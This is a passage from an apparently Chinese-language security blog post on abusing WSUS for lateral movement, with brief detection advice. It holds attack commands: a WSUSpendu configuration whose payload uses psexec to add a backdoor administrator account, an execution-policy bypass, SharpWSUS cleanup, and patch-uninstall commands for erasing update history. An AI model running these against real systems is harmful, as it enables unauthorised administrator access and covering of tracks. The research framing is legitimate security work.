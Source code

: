 ### 4.清除补丁信息

命令示例：

```
SharpWSUS.exe delete /updateid:f316d1b2-b530-40bc-b4d7-0453d85c4c58 /computername:win-iruj9k30gr7 /groupname:"Demo Group"
```

这条命令会删除补丁，删除添加的计算机组

在整个补丁更新过程中，WSUS服务器会将psexec.exe保存在WSUS服务器本地`C:\wsus\wuagent.exe`和`C:\wsus\WsusContent\8E\FD7980D3E437F28000FA815574A326E569EB548E.exe`，需要手动清除

在测试[WSUSpendu](https://github.com/AlsidOfficial/WSUSpendu)时，为了便于分析细节，可以修改以下代码：

```
[CmdletBinding()]
Param(
)
$PayloadFile = "psexec.exe"
$PayloadArgs = '-accepteula -s -d cmd.exe /c "net user Titi Password123_ /add && net localgroup Administrators Titi /add"'
$ComputerName = "win-iruj9k30gr7"
$Inject = 1
```

命令行执行：`powershell -ep bypass -f WSUSpendu.ps1 -Verbose`，将会输出完整的信息

## 0x05 行为检测
---

客户端的补丁历史更新记录会保存所有的补丁安装信息：

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-9-1/3-1.png)

但是，攻击者如果获得了系统的管理员控制权限，可以通过命令行卸载补丁的方式清除历史更新记录，命令行卸载补丁的命令示例：

查看更新：`wmic qfe list brief/format:table`

卸载指定更新：`wusa /uninstall /kb:976902 /quiet /norestart`

## 0x06 小结
---

本文介绍了通过WSUS进行横向移动的方法和实现工具，结合利用思路，给出行为检测的建议。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
